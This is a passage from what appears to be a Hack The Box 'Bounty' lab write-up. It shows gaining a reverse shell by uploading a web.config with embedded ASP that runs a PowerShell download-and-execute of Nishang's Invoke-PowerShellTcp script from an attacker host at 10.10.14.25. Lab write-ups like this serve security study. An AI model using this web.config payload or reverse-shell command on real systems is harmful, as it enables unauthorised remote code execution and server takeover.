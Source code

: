 ![image](/assets/img/post/htb/bounty/10.png)


### web.config (Reverse Shell)

Now, we can use `Nishang`'s `Invoke-PowerShellTcp.ps1` to gain a reverse shell. 

```console
$ cp /opt/windows/nishang/Shells/Invoke-PowerShellTcp.ps1 revShell.ps1
$ vi revShell.ps1
```

At the bottom of the script add the following command:

```powershell
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.25 -Port 9001
```

Let's update the `web.config` file again to execute our reverse shell script from our web server. 

```xml
<!-- ASP code comes here
<%
Set rs = CreateObject("WScript.Shell")
Set cmd = rs.Exec("cmd /c powershell -c iex(new-object net.webclient).downloadstring('http://10.10.14.25/revShell.ps1')")
o = cmd.StdOut.Readall()
Response.write(o)
%>
-->
```

Once we uploaded the updated `web.config` and visit the url, we can successfully gain a reverse shell from the host.
